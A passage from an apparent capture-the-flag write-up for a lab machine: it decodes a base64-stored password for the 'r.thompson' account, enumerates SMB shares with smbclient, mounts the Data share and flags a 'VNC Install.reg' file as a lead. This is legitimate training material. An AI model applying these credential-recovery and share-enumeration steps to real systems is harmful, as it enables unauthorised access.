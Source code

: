 We decode it and found the password `rY4n5eva` for the `r.thompson` account.

    :::text
    kali@kali:~$  echo -ne 'clk0bjVldmE=' | base64 -d
    rY4n5eva

## SMB share

Using this account we can enumerate the available SMB shares.

    :::text
    kali@kali:~$  smbclient -L \\\\10.10.10.182 -U 'r.thompson'
    Unable to initialize messaging context
    Enter WORKGROUP\r.thompson's password:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            Audit$          Disk
            C$              Disk      Default share
            Data            Disk
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share
            print$          Disk      Printer Drivers
            SYSVOL          Disk      Logon server share
    SMB1 disabled -- no workgroup available

We mount the `Data` share using our account and list its content, the file `VNC
Install.reg` inside `s.smith` folder seems interesting.

    :::text
    kali@kali:~$  sudo mount //10.10.10.182/Data /mnt/ -o username=r.thompson
    tree /mnt/
    /mnt/
    ├── Contractors
    ├── Finance
    ├── IT
    │   ├── Email Archives
    │   │   └── Meeting_Notes_June_2018.html
    │   ├── LogonAudit
    │   ├── Logs
    │   │   ├── Ark AD Recycle Bin
    │   │   │   └── ArkAdRecycleBin.log
    │   │   └── DCs
    │   │       └── dcdiag.log
    │   └── Temp
    │       ├── r.thompson
    │       └── s.smith
    │           └── VNC Install.reg
    ├── Production
    └── Temps

    13 directories, 4 files
